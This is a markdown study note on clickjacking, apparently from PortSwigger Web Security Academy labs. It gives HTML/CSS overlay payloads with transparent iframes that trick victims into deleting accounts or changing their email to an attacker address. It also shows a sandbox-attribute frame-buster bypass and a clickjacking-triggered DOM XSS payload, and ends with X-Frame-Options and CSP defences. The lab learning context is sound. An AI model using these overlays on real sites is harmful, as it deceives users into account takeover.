




An interface-based attack, where the user is tricked into clicking on actionable content on a **hidden/embedded website** by overlaying the intended/benign site, Often incorporated via an `<iframe>` and multiple layers using `CSS`.
- Sent a link to victim, containing decoy site
- Decoy site uses an `<iframe>` to **load the target website *over* malicious content** on the decoy site

**Important:** CSRF tokens ***do not project against clickjacking*** - as the **target session is established with ALL content loaded from the target site** (CSRF token included).

Can use [Clickbandit](https://portswigger.net/burp/documentation/desktop/tools/clickbandit) to generate #clickjacking attacks. Allows you to **perform the desired actions on the frameable page**, then **creates an HTML file containing a suitable clickjacking overlay**. Via `Burp` --> `Clickbandit`.


**Example: (manual framing, multiple frames)**
``` html
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_prompt {
			position:absolute;
			top:300px;
			left:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_prompt">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```
- Adjust **absolute & relative position values so** there's **a precise overlap of the target action** with the decoy website
- `z-index` determines stacking order of `<iframe>` & website layers
- `opacity:0.00001` so `<iframe>` content is transparent to users.
	- **May need to adjust this - as some browsers perform threshold-based `<iframe>` transparency detection (e.g. Chrome)**

**Alternative:**
``` html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:520px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a7a00a8040ea7ba80aed06c001a0088.web-security-academy.net/my-account"></iframe>
```


##### Lab: [Basic clickjacking with CSRF token protection](https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected)
**Objective:** *This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.*
*To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.*
*You can log in to your own account using the following credentials: `wiener:peter`*

When loading `/my-account`, notice we can delete our account with no confirmation, by clicking the button.


Using the below code on our exploit server, adjust the `top` and `left` parameters to move the `Test me here!` `<div>` to overlap where roughly where the `Delete account` button would be when the account page is loaded. **ENSURE YOU DO NOT ACTUALLY DELETE YOUR OWN ACCOUNT AS THIS WILL BREAK THE LAB FOR ~20MIN REGARDLESS OF WHETHER YOU HAVE THE RIGHT CODE**.
Have adjusted the target site being loaded underneath to be semi-transparent while testing, but change to `0.0001` when delivering to victim.
``` html
<head>
	<style>
		#target_website {
			position:relative;
			width:700px;
			height:800px;
			opacity:0.0001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			top:510px;
			left:40px;
			z-index:1;
			}
	</style>
</head>
<body>
	<div id="decoy_website">
	Click me
	</div>
	<iframe id="target_website" src="https://0a7a00a8040ea7ba80aed06c001a0088.web-security-academy.net/my-account"></iframe>
</body>

// or

<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:520px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a7a00a8040ea7ba80aed06c001a0088.web-security-academy.net/my-account"></iframe>

```


Then, change `opacity` to `0.0001`, and deliver to victim!


---

### Clickjacking with prefilled form input
When websites require filling out form parameters (e.g. `email` or `username`) before submitting a request for a given action, can attempt to **pre-fill these parameters by using URL parameters**.
E.g.
- `GET /my-account?id=wiener&email=test@email.com` --> **pre-fills loaded form with attacker's email** so clickjack only needs to click `Submit` to work.

##### Lab: [Clickjacking with form input data prefilled from a URL parameter](https://portswigger.net/web-security/clickjacking/lab-prefilled-form-input)
**Objective:** *This lab extends the basic clickjacking example in [Lab: Basic clickjacking with CSRF token protection](https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected). The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button.
To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed.
You can log in to your own account using the following credentials: `wiener:peter`*


Testing our email account change page using pre-filled URL parameters:
`GET /my-account?id=wiener&email=test@email.com` --> pre-fills form with attacker's email so clickjack only needs to click submit (allows us to control ahead of time what email to change account to in subsequent `POST` request)


``` html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 600px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:480px;
        left:80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0acc0052038c393080525899004c0052.web-security-academy.net/my-account?email=evil@attacker.com"></iframe>
```

When storing this, can see the email is pre-filled and clickjacking prompt is over the `Update email` button. Deliver to victim to solve lab!


---

## Frame busting scripts
As clickjacking is possible **whenever sites can be framed**, common browser protection mechanisms attempt to restrict this functionality. 
One such restriction is **frame busting** or **frame breaking scripts** (in-built or browser extensions like NoScript), which may attempt to:
- Enforce that the current application window is the top/main window
- Make all frames visible
- Prevent clicking invisible frames
- Flag potential clickjacking attacks

**TO CIRCUMVENT THESE** frame busting scripts, can attempt the following:
- Using the `HTML5` `<iframe>` **`sandbox`** attribute.
	- Set it using the `sandbox="allow-forms"` or `sandbox="allow-scripts"`, but **OMIT** the `allow-top-navigation`. This permits script execution & form submission in the `iframe`, but **prevents the `iframe` from checking whether it's the top window**, which can **neutralise** many framebuster scripts.
``` html
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```

##### Lab: [Clickjacking with a frame buster script](https://portswigger.net/web-security/clickjacking/lab-frame-buster-script)
**Objective:** *This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address?*
*To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.*
*You can log in to your own account using the following credentials: `wiener:peter`*

Logging in and observing we can change email with a single button press (and pre-fill email parameter with URL parameter), we can now try and make a clickjacking exploit. 
Attempting to frame our page using the same HTML that we used last time, shows us that the **page cannot be framed**, likely due to some framebuster script.

Changing the `<iframe>` to include a `sandbox="allow-forms"` attribute, we can prevent checks on the `iframe` for whether it's the top window - and as we can see, the site is now framed!


``` html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 600px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:470px;
        left:80px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0ad800ac03dafedf80058089004700ba.web-security-academy.net/my-account?email=evil@attacker.com" sandbox="allow-forms"></iframe>
```

Then, just change the div to `Click me` and deliver to victim to solve the lab!


---

## Combining clickjacking with DOM XSS
While clickjacking may be performed on its own, **can provide a vector to perform DOM-based exploits** - after a DOM-based XSS vector is identified. 
This DOM-based XSS exploit is **combined with the target `<iframe>` URL** so the user clicks on a link *and performs the DOM XSS attack*.

##### Lab: [Exploiting clickjacking vulnerability to trigger DOM-based XSS](https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss)
**Objective:** *This lab contains an XSS vulnerability that is triggered by a click. Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the `print()` function.* 

Browsing to the site, we can see that there is a feedback submission form, that dynamically renders the given name using `innerHTML`. This dangerous sink is also flagged by DOMInvader:

`feedbackResult.innerHTML = "Thank you for submitting feedback" + (name ? ", " + name : "") + "!";

As lab uses innerHTML, can't use `<script>` tags - must instead use alternative elements like `img` or `iframe`. 
Using `` or similar in the `Name` field gets our print dialogue:


Perfect, now just need to ensure the `Name` is pre-filled with this DOM XSS exploit using the following URL parameter:


Now, can build our clickjacking attack, prefilling **the entire form** (so it's able to be submitted) via the URL parameters `?name=%3Cimg+src%3Dx+onerror%3Dprint%28%29%3E&email=evil%40evil.net&subject=test&message=test`):
``` html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 600px;
        opacity: 0.001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:470px;
        left:80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a85004a04cb9fe680de2b5800af0041.web-security-academy.net/feedback?csrf=L0UrdNQqg0WbdwCpje63fMghMaqElBC4&name=%3Cimg+src%3Dx+onerror%3Dprint%28%29%3E&email=evil%40evil.net&subject=test&message=test"></iframe>
```
Adjust the canvas size & overlay position until you hit the `Submit Feedback` button, and send it to the victim!


**Importantly**, when testing this using the `sandbox` `<iframe>` attribute, **the attack did not work**, and instead loaded:

I believe this may be a limitation with the sandboxing capability, so **if you encounter this - turn `sandbox` off in your `<iframe>`!**

---

## Multistep clickjacking
May need to **use multiple divisions or `<iframe>`s** where a multi-step process occurs that you wish to clickjack (e.g. verifying an email change, or adding an item, to cart before purchasing it). You'll likely need to **use two CSS elements** for this.

##### Lab: [Multistep clickjacking](https://portswigger.net/web-security/clickjacking/lab-multistep)
**Objective:** *This lab has some account functionality that is protected by a CSRF token and also has a confirmation dialog to protect against Clickjacking. To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. You will need to use two elements for this lab.
You can log in to the account yourself using the following credentials: `wiener:peter`*

Logging in, we see we need to clickjack the following multi-step process:
- Click Delete Account
- click `Yes` on confirmation page

The lab technically *can* be solved using the shoddy below code & two `div` elements, but what might be more elegant would be to use javascript to dynamically change which `div` is visible on the screen (e.g. `Click me first`, and then `Click me next`).
This could be done with an event listener checking for when `Click me first` is clicked, which then switches the visibility of the `Click me next` `<div>` `id`.
``` html
<head>
	<style>
		#target_website {
			position:relative;
			width:700px;
			height:900px;
			opacity:0.5;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			top:490px;
			left:60px;
			z-index:1;
			}
		#part2 {
			position:absolute;
			top:300px;
			left:200px;
			z-index:1;
			}
	</style>
</head>
<body>
	<div id="decoy_website">
	Click me first
</div>
	<iframe id="target_website" src="https://0a26009a03bd68be800e26ee000f00cc.web-security-academy.net/my-account"></iframe>
<div id="part2">Click me next</div>
</body>
```

*(below solution is not aligned correctly after lab is solved due to page contents having shifted downwards)*


---

## How to prevent clickjacking attacks
Most effectively prevented via **server-side protocols**, namely `X-Frame-Options` and `Content Security Policy (CSP)` - however, implementation of such protection is **browser-dependent** and so must be tested across multiple.
1. **`X-Frame-Options`**: **restricts the use of the website within `<iframe>`'s** or objects framing it on other sites. 
	- `X-Frame-Options: deny`, `X-Frame-Options: sameorigin`, or to a known website via `X-Frame-Options: allow-from https://normal-website.com`
	- *Is not consistently implemented, and should be done alongside a proper CSP. Useful for **older browser support**.*
2. **`Content-Security-Policy`**: provides client browser with **permitted sources/types of web resources to load**. 
	- `Content-Security-Policy: frame-ancestors 'self'` - allows page to be framed **by pages from the same origin**.
	- `Content-Security-Policy: frame-ancestors 'none'` - **prevents framing**.
	**A `CSP` is more flexible than `X-Frame-Options`**, as can specify multiple domains/use wildcards, and `CSP` will validate **each frame in the hierarchy** as opposed to just the top-level frame:
	- `Content-Security-Policy: frame-ancestors 'self' https://normal-website.com https://*.robust-website.com`


